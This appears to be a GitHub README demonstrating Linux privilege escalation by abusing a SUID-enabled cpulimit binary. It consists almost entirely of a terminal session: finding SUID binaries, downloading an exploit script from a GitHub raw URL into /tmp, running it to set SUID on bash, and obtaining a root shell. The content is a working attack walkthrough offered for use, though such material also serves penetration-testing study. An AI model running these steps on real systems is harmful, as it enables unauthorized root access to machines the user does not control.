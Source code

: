 # CPULimit Linux Privilege Escalation (Abusing SUID)


```powershell
user@victim:~$ whoami
user
user@victim:~$ find / -perm -4000 2>/dev/null | grep "cpulimit"
/usr/bin/cpulimit
user@victim:~$ cd /tmp/
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 

[i]  starting exploit.. 
[*]  check PATH bash: /usr/bin/bash
[*]  check PATH cpulimit: /usr/bin/cpulimit
[+]  granting SUID permissions to: /usr/bin/bash
Process 436 detected
Child process is finished, exiting...
[+]  getting a shell as root.. 
bash-5.0# whoami
root
```

**Screenshot**

![](/screenshot.png)
